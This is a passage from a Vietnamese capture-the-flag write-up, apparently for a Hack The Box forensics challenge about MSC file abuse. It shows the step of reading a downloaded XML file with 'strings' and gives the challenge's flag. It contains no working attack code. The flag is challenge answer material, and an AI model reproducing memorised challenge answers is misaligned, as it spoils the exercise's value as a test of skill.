

Tiếp tục tải file xml về để xem nội dung. Sau khi tải xong thấy file chứa byte thô, sử dụng strings để đọc

```bash
strings -a ec285935b46229d40b95438707a7efb2282f2f02.xml
```

## 8. Flag

thấy được flag là `HTB{mSc_1s_b31n9_s3r10u5ly_4buSed}`



## 9. Flow


